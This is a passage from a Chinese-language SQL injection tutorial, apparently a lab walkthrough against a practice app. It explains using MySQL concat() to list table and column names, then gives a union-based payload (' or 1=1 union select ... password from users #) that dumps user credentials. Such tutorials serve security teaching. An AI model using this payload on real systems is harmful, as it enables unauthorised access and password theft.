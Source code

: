 
这其中 concat() 是 MySQL 中一个很重要函数，该函数用于将多个字符串连接成一个字符串，也就是将 table_name、column_name 一同显示出来，这里的 0x0a 表示的是 `/n` 换行符，这样把表名与各个表项分开，不至于让我们分辨不出，更人性化一点。

看到这里我们便可把我们刚刚猜测的查询语句完善一番了，因为我们知道了表名，以及表项：

```
SELECT first_name,last_name FROM users WHERE user_id = '获取到的输入内容'
```

我们可以通过查看原来来证实我们的猜想是否正确：

![show-source-code](../imgs/wm_264.png)

既然都能获取到表中有所有表项的信息了，我们能否将每个表项的内容也一同显示出来呢？

```
' or 1=1 union select null,concat(user_id,0x0a,first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```
